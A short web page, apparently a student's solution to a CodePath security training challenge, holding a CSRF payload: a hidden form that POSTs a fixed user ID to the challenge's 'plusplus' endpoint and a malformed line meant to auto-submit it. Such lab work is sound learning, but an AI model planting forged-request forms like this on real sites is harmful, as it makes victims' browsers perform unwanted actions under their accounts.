 # JLPlummer79.github.io


<form name="csrf_form" action="https://security.codepath.com/user/csrfchallengtwo/plusplus" method=POST>
  <input type="hidden" name="userId" value="2eff24c04dc96585b7fadc8b1fd6d80081c3ffdd" />
  <input type="submit"/>
</form>

<iframe document.csrf_form.submit(); /iframe>
